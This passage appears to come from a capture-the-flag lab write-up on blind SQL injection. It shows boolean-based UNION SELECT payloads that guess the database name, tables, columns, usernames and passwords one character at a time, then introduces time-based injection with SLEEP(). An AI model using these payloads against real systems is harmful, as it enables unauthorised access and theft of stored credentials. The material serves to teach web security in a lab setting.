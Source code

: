 ![](https://i.imgur.com/O2n5NSI.png)

## Injection

**Now you move onto the next character of the database name until you find another true response, for example, 'sa%', 'sb%', 'sc%' etc. Keep on with this process until you discover all the characters of the database name, which is sqli_three.**


## DATABASE()

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
![](https://i.imgur.com/MMjnr9O.png)

## TABLES

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```
![](https://i.imgur.com/RqnZblf.png)


## COLUMNS

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

![](https://i.imgur.com/yyxeF0K.png)

## DATA

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

![](https://i.imgur.com/PTGx2lM.png)


## Level 3 :

## Time-Based

> A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, **but there is no visual indicator of your queries** being wrong or right this time. Instead, **your indicator of a correct query is based on the time the query** takes to complete. This time delay is introduced by using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 
